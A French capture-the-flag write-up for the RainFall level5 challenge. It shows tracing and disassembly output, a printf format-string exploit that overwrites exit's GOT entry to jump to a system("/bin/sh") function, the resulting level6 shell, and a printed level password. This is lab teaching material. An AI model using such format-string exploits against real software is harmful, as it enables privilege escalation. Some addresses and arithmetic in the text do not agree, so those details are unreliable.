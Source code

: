 Nous avons un binaire **./level5**
COmmencons par voir les appels aux fonctions:
```sh
level5@RainFall:~$ ltrace ./level5
__libc_start_main(0x8048504, 1, 0xbffff7f4, 0x8048520, 0x8048590 <unfinished ...>
fgets(%p%p%p%p%p%p%p%p%p%p%p%p%p%p
"%p%p%p%p%p%p%p%p%p%p%p%p%p%p\n", 512, 0xb7fd1ac0)      = 0xbffff540
printf("%p%p%p%p%p%p%p%p%p%p%p%p%p%p\n", 0x200, 0xb7fd1ac0, 0xb7ff37d0, 0x70257025, 0x70257025, 0x70257025, 0x70257025, 0x70257025, 0x70257025, 0x70257025, 0xa, (nil), 0xb7fde000, 0xb7fff53c0x2000xb7fd1ac00xb7ff37d00x702570250x702570250x702570250x702570250x702570250x702570250x702570250xa(nil)0xb7fde0000xb7fff53c
) = 124
exit(1 <unfinished ...>
+++ exited (status 1) +++
```
level5 fini par un exit visiblement avant d'arriver à la fin du programme. On remarque qu'il y a un appel à printf et que printf est vulnérable à l'exploit de format, cherchons l'index: 
```sh
level5@RainFall:~$ ./level5
aaaa%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
aaaa0x2000xb7fd1ac00xb7ff37d00x616161610x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250xbfff000a0x400xb80(nil)0xb7fde7140x98
```
C'est a l'index 4 que nous retrouvons notre chaîne "aaaa" : 0x61616161.
Passons au désassemblage:

```asm
level5@RainFall:~$ objdump ./level5 -d -M intel

./level5:     file format elf32-i386

Disassembly of section .init:
...
080483d0 <exit@plt>:
 80483d0:       ff 25 38 98 04 08       jmp    *0x8049838
 80483d6:       68 28 00 00 00          push   $0x28
 80483db:       e9 90 ff ff ff          jmp    8048370 <_init+0x3c>
 ...
080484a4 <o>:
 80484a4:       55                      push   ebp
 80484a5:       89 e5                   mov    ebp,esp
 80484a7:       83 ec 18                sub    esp,0x18
 80484aa:       c7 04 24 f0 85 04 08    mov    DWORD PTR [esp],0x80485f0
 80484b1:       e8 fa fe ff ff          call   80483b0 <system@plt>
 80484b6:       c7 04 24 01 00 00 00    mov    DWORD PTR [esp],0x1
 80484bd:       e8 ce fe ff ff          call   8048390 <_exit@plt>

080484c2 <n>:
 80484c2:       55                      push   ebp
 80484c3:       89 e5                   mov    ebp,esp
 80484c5:       81 ec 18 02 00 00       sub    esp,0x218
 80484cb:       a1 48 98 04 08          mov    eax,ds:0x8049848
 80484d0:       89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 80484d4:       c7 44 24 04 00 02 00    mov    DWORD PTR [esp+0x4],0x200
 80484db:       00
 80484dc:       8d 85 f8 fd ff ff       lea    eax,[ebp-0x208]
 80484e2:       89 04 24                mov    DWORD PTR [esp],eax
 80484e5:       e8 b6 fe ff ff          call   80483a0 <fgets@plt>
 80484ea:       8d 85 f8 fd ff ff       lea    eax,[ebp-0x208]
 80484f0:       89 04 24                mov    DWORD PTR [esp],eax
 80484f3:       e8 88 fe ff ff          call   8048380 <printf@plt>
 80484f8:       c7 04 24 01 00 00 00    mov    DWORD PTR [esp],0x1
 80484ff:       e8 cc fe ff ff          call   80483d0 <exit@plt>

08048504 <main>:
 8048504:       55                      push   ebp
 8048505:       89 e5                   mov    ebp,esp
 8048507:       83 e4 f0                and    esp,0xfffffff0
 804850a:       e8 b3 ff ff ff          call   80484c2 <n>
 804850f:       c9                      leave
 8048510:       c3                      ret
 8048511:       90                      nop
...
```
Plusieurs choses:
- **main** appel **n** qui appelle **fgets** avec un buffer de 512 octets puis **printf**
- **n** appelle **exit**
- il y a une fonction **o** qui appelle system chargé avec le buffer "/bin/sh" -> c'est évidemment notre cible
```sh
level5@RainFall:~$ gdb -q ./level5
Reading symbols from /home/user/level5/level5...(no debugging symbols found)...done.
(gdb) x/s 0x80485f0
0x80485f0:       "/bin/sh"
```
- **o** n'a pas de protection particulière conditionnant son accès, un jump dans gdb permet d'y accéder, mais il nous faut les droits level6

Il faut donc contourner l'appel a **exit** de **n** pour appeler **o** à la place.
On a vu au précédant hack qu'avec le format **%n** il était possible d'écrire des valeurs à une adresse. Il faudrait donc écraser l'adresse d'**exit** pour la remplacer par celle de **o**.
L'adresse de **o** est **0x080484a4**, celle d'**exit** est **0x8049838**.
L'adresse de o représente un nombre gigantesque pour être écrit par printf en nombre de caractère, potentiellement cela peut crasher. Nous allons donc écrire l'adresse en deux fois à l'aide de 2 * 2 octets au lieu de 4 octets d'un coup en séparant lower bytes et higher bytes (LOB et HOB) à l'aide de %hn qui n'écrit que le LOB de l'int pointé par %n:

>si HOB < LOB
>[adresse + 2][adresse]%[HOB - 8]x%[offset]$hn%[LOB - HOB]x%[offset + 1]

>si HOB > LOB
>[address + 2][address]%[LOB - 8]x%[offset + 1]$hn%[HOB - LOB]x%[offset]

ici: 0x0804 < 0x84a4 donc options 1
En little endian nous allons commencer à écrire 2 octets dans la dernière partie de l'adresse de exit puis 2 octets dans la première.
Nous convertissons 0x0804 et 0x84a4 en décimal 2056 et 33956 il faut enlever 8 octets pour les 2 adresses puis enlever le nombres d'octets déjà écrit (33956 - 2052) ce qui donne 2044 et 31904, donc on a:
```sh
level5@RainFall:~$ python -c 'print "\x40\x98\x04\x08\x38\x98\x04\x08" + "%2044x" + "%4$hn" + "%31904x" + "%5$hn"' > /tmp/payload
level5@RainFall:~$ cat /tmp/payload - | ./level5

                                                                              b7fd1ac0
```
On dirai que nous avons un shell, essayons **id**:
```sh
id
uid=2045(level5) gid=2045(level5) euid=2064(level6) egid=100(users) groups=2064(level6),100(users),2045(level5)
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
Flag!
